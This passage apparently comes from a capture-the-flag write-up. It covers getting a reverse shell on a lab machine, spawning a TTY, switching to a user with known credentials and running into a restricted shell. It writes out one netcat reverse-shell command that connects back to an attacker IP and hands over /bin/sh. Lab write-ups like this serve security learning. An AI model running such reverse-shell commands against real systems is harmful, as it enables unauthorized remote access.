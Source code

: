 ![alt text](Images/reverse.png)


I've used python because for some reason, simple `nc 10.10.13.198 4444 -e /bin/sh` didn't worked.

***

Own User
---------

Start by spwaning a TTY shell and then remember we already have a `user` and `password` so we can simply switch the user

![alt text](Images/su.png)

Now we are `ayush`, we can just go and take away the `user.txt` but nope.
I couldn't run any command like `ls`, `cat` etc

![alt text](Images/rbash.png)
